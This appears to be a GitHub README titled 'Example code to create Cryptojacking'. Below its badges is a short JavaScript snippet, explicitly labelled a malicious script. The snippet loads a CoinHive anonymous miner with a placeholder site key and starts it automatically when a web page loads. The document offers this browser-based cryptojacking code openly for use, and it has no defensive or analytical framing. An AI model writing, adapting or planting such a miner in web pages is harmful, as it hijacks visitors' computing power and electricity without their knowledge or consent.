 <h2 align="center">Example code to create Cryptojacking</h2>

<p align="center">
  <a href="https://github.com/Sasser1337/Cryptojacking/stargazers">
    <img src="https://img.shields.io/github/stars/Sasser1337/Cryptojacking" alt="Stars Badge"/>
  </a>
  <a href="https://github.com/Sasser1337/awesome-github-profile-readme/network/members">
    <img src="https://img.shields.io/github/forks/Sasser1337/Cryptojacking" alt="Forks Badge"/>
  </a>
  <a href="https://github.com/Sasser1337/Cryptojacking/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/Sasser1337/Cryptojacking?color=2b9348" alt="License Badge"/>
  </a>
  <a href="https://hits.seeyoufarm.com">
    <img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FSasser1337%2FCryptojacking&count_bg=%2379C83D&title_bg=%23555555&icon=&icon_color=%23E7E7E7&title=hits&edge_flat=false"/>
  </a>
</p>

  
<h2> Example code </h2>

```javascript
//Create a malicious script
<script>
  //Create a function to start the cryptojacking process
  function startCryptojacking() {
    //Create a variable to store the miner
    var miner = new CoinHive.Anonymous('YOUR_SITE_KEY');
    //Start the miner
    miner.start();
    //Listen for any errors
    miner.on('error', function(params) {
      console.log('An error occured while cryptojacking: ' + params.error);
    });
  }
  //Call the function to start the cryptojacking process
  startCryptojacking();
</script>
```
